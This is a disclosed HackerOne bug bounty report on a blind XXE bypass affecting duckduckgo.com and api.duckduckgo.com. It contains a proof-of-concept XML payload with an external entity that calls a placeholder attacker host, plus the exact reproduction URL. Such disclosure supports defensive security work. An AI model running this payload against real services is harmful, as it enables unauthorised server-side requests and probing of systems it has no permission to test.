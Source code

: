 # Partial bypass of #483774 with Blind XXE on https://duckduckgo.com

## Report Details
- **Report ID**: 486732
- **URL**: https://hackerone.com/reports/486732
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-01-26T19:30:34.188Z
- **Disclosed**: 2019-02-25T16:42:25.787Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: duckduckgo

## Vulnerability Information
**Summary:**
Hi DuckDuckGo team,
I've contacted previously you because in a second time (on the #483774 report), I've seen that was possible bypass the fix. Anyway, I've not got any response, and because I think that this is a bit dangerous issue, I'm opening another report for the bypass. Hope you'll agree.

**Steps for reproduction:**
1. Attacker creates a public server and hosts a file with the following content:

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://attacker_host/Blind_xxe"> %ext;
]>
<r></r>
```
2. User goes on https://duckduckgo.com/x.js?u=http://attacker_host/xxe.xml
3. The `http://attacker_host/Blind_xxe` resource will be requested by an host {F413045}

I'd like to say that this affects not only `duckduckgo.com`, but also `api.duckduckgo.com`. Anyway, the #483908 report is still in the `triaged` state, so I think that will not be right against you submit another report also for the `api.duckduckgo.com` domain.

## Impact

Blind XXE leads to `dos` and `blind injection`.

## Attachments
- xxe.png
